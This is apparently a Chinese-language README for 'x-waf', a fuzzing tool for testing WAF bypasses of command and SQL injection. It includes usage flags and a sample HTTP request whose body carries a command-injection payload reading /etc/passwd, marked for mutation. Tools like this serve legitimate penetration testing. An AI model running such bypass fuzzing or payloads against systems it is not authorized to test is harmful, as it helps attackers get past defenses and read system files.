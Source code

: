 一个基于fuzz的waf绕过测试工具，当前支持命令执行、SQL注入绕过。后续会支持更多绕过方式、攻击类型。

```
Usage:
  ./x-waf -target <request_file> [flags] [command]
  ./x-waf [command]

Available Commands:
  cmd         fuzz cmd injection
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  sql         fuzz sql injection

Flags:
      --debug-file-path string          specify request response log file path
      --fuzz-count int                  specify max fuzz times (default 10000000)
  -h, --help                            help for ./x-waf
      --log-level string                specify log level, default is info (default "info")
      --target string                   specify the request file path
      --target-https                    specify whether the request is https protocol (default true)
      --target-mark string              specify the request fuzz position mark (default "%{{.*}}%")
      --waf-block-regex string          specify waf block regex
      --waf-block-rsp-status-code int   specify waf block response status code (default 403)

Use "./x-waf [command] --help" for more information about a command.
```

# 使用步骤
1、准备需要绕过的HTTP请求文件，例如：test.http

```
POST /demo/detect/ HTTP/1.1
Host: cmdchop.chaitin.com
accept: application/json, text/javascript, */*; q=0.01
accept-language: zh-CN,zh;q=0.9,en;q=0.8
content-type: application/json
cookie: _ga=GA1.2.212169703.1725506930; _ga_PNVRK9GRJ2=GS1.2.1725527773.2.1.1725529516.0.0.0; user_id=f62aa452-d92a-405a-9295-49aba0ed6d47; cid=dea7646d-7542-432f-858f-c745914a1e73; mid=c0b990d0-a3dc-455c-9f66-bac94da0b098
origin: https://cmdchop.chaitin.com
priority: u=1, i
referer: https://cmdchop.chaitin.com/demo/
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
x-requested-with: XMLHttpRequest
Content-Length: 50

{"type":"urlpath","payload":"/?p=cat /etc/passwd"}
```

2、将payload的位置用%{{.*}}%标记，例如：

```
{"type":"urlpath","payload":"/?p=%{{cat /etc/passwd}}%"}
```

3、运行命令：

```
./x_waf --target test/chatin-cmdchop.http --waf-block-regex payload cmd --fuzz-cmd-mode real
```

--fuzz-cmd-mode real 会实际执行命令，验证payload是否有效，当前只支持查看/etc/passwd文件内容

--fuzz-cmd-mode mock 会解析命令，验证payload是否有效，支持任意命令

--waf-block-regex payload 指定waf拦截时页面响应的匹配内容，支持正则表达式

4、查看bypass结果：

```
cat result.txt
```

# 注意事项
如果目标不是https，就加`--target-https=false`参数

# 运行截图
<img width="1096" alt="image" src="https://github.com/user-attachments/assets/5d9bb89e-5a46-4e13-b203-3d43a3c68753">


